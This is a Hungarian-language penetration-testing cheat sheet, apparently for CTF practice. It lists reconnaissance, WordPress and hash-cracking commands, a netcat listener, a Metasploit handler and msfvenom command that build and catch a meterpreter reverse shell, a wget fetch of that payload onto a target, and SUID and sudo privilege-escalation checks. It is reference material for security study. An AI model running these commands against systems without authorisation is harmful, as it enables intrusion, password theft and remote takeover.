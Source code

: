 # Etikus hackelés cheat-sheet

## Alapvető paracsok:

- `ping $RHOST`
- `sudo nmap -sS -sV (-O -sC) $RHOST` esetleg, ha ismerjük (-p PORT)
- `gobuster dir -u http://$RHOST -w /usr/share/wordlists/dirb/common.txt -x php,sh,txt,cgi,html,js,css,py` vagy `/usr/share/wordlists/dirb/big.txt`
  Gobuster helyett lehet dirb-t is használni: `dirb http://$RHOST {megfelelő szólista} (-r)`, ahol a -r kikapcsolja a rekurzív keresést

## Wordpress esetén:

- `wpscan --url http://$RHOST --userames {filename} --passwords {filename}` -(itt lehet használni pl.: usr/share/wordlists/rockyou.txt)
- Ha kapunk egy hash-t:
- Hash típusának meghatározása: `hash-identifier`
- Hash feltörése: `john {filename} --format={az előbb meghatározott típus, pl.: raw-md5} --wordlist=/usr/share/wordlists/dirb/rockyou.txt`

## Netcat listener készítése:

- `nc -lvnp 5555` (5555=PORT, ez lehet más is)

## Msfconsole multi/handler:

- `set payload linux/x64/meterpreter_reverse_tcp`
- `set lhost $LHOST`
- `set rhost $RHOST`
- `set lport 5555`
- `run`

#### Ha kaptunk meterpreter shell-t, akkor egyszerűen az `upload` és `download` parancsokat használhatjuk

## Interaktív shell készítése:

- Ha van python a célgépen: `python -c "import pty; pty.spawn('/bin/bash')"`, de más eszközök is rendelkezésre állnak a gépen elérhető programok függvényében pl.: `perl`. Ha találunk valami ilyesmit, akkor érdemes lecsekkolni a [gtfobins](https://gtfobins.github.io/#python)-en.

## SUID bitek keresése:

- `find / -perm /u=s 2>/dev/null`

## Shell kódok készítése msfvenommal:

- `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=$LHOST RHOST=$RHOST LPORT=5555 -f elf > revshell.elf`
- Ha pl. windowsos célgépet támadunk akkor az .elf kiterjesztés helyett a .exe kiterjesztést használjuk.

## SSH alapok:

- Eszközhöz való csatlakozás: `ssh -p PORT username@$RHOST`
- Eszközhöz való csatlakozás privát kulcs használatával: `ssh -p PORT -i {privát kulcs} username@$RHOST`, viszont ekkor a privát kulcs publikus párjána szerepelnie kell a felhasználó `~/.ssh/authorized keys` fájljában.

## Privát kulcs készítése:

- `openssl genpkey –algorithm RSA -pkeyopt rsa_keygen_bits:2048 > privat.pem` vagy `ssh-keygen -t rsa -b 2048`

## Publikus kulcs készítése privátból:

- `ssh-keygen -f privat.pem -y > publikus.pub`

## Python szerver:

- `python3 -m http.server`
- Letöltés a szerverről: `wget http://$RHOST:8000/revshell.elf`

## A sudo parancs:

- `sudo -l`
- Futtatás más felhasználó nevében (pl.: SUID bitünk van): `sudo -u username ...parancsok`

## Szkriptelés:

- Szkriptek elejére: `#!/bin/zsh` vagy `#!/bin/bash`
- Hasznos oldal lehet még a [pentestmonkey](https://pentestmonkey.net/category/cheat-sheet) is

## PGP fájl esetén:

- `gpg2john filenév.asc > hová`
- `john --format=gpg filenév --wordlist=/usr/share/wordlists/rockyou.txt`
- `gpg --import filenév.asc` (Itt megadjuk az előbb kinyert jelszót)
- `gpg --decrypt filenév.pgp`

## Egy bizonyos rendszer sérülékenységeinek keresése:
- [exploit-db](https://www.exploit-db.com/)
